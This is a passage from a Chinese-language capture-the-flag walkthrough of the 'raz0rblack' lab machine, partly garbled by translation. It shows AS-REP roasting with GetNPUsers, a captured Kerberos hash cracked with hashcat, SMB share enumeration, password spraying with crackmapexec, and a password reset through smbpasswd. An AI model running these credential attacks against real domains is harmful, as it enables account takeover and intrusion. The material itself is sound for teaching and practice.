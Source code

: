 压缩文件的密码是什么？

现在我们有了一个用户列表，让我们用 Kerberos 来试试。我们将使用`IMPACKET’s GetNPUsers`从我们的用户列表中强行删除 Kerebos 和现有用户的散列。

将机器 IP 地址添加到`/etc/hosts`文件中以继续攻击，否则，您将无法使用该工具

> python 3 getnpusers . py-不传递 raz0rblack.thm/-users file users . txt-format hashcat-output file hashes . txt

```
cat hashes.txt$krb5asrep$23$twilliams@RAZ0RBLACK.THM:f944c5614c2277ef59298b93b1e0444d$71dca0c34c4867377c6bb3a24d6496ac00339a69aa7ea9368b2dc4e3b5c7c692b95170a087cd57137076f628b2f48ec17ae51271012e9bf948d8d07ef92a84f6a2d01699fa2fc70c1551cfaccd08f3d81ce7187674a62d765dbcda4e15ed32348f6c3329d7014d959daefa42ecf0733a560e17df190a519f8daee10713f21dfb6246641f806ec0e370229705e6a65a0024b4169e0504a29b1aea2d9e02d2fe314de02cb90976038e361cfe557f94d78d7e9c05580527ec4432c16951290dbf548dc09ed09022ad72f158424fba1fe5a9a33d1f584e937410f3e4abcfe1fdb0d60addd428b1029b6fd266eda973a1f465
```

让我们来破解哈希。

```
hashcat -m 18200 hashes.txt rockyou.txt
```

在 SMB 上测试这些信用

```
smbmap -H $IP -u twilliams -p roastpotatoes
[+] IP: 10.10.25.33:445        Name: 10.10.25.33
        Disk                        Comment
        ----                        -------
        ADMIN$                  Remote Admin
        C$                      Default share
        IPC$                    Remote IPC
        NETLOGON                Logon server share
        SYSVOL                  Logon server share
        trash                   Files Pending for deletion
```

我们可以访问`IPC$` `NETLOGON` `SYSVOL`但是里面没有什么有趣的东西。还有另一个文件夹，里面有一条有趣的评论`trash`，但是我们没有权限阅读。我们可以暴力破解，看看其他用户是否有相同的密码。

保留以前使用的文件`user.txt`，用以前用户的密码制作一个文件`pass.txt`。

```
crackmapexec smb $IP -u users.txt -p pass.txtSMB         10.10.25.33    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:roastpotatoes STATUS_PASSWORD_MUST_CHANGE
```

对于用户`sbradley`,我们发现一条有趣的消息`STATUS_PASSWORD_MUST_CHANGE`,消息的原因是指定的密码过期了。所以还是改密码吧。

```
smbpasswd -r $IP -U sbradley
Old SMB password: roastpotatoes
New SMB password: testing
Retype new SMB password: testing
Password changed for user sbradley on 10.10.25.33
```
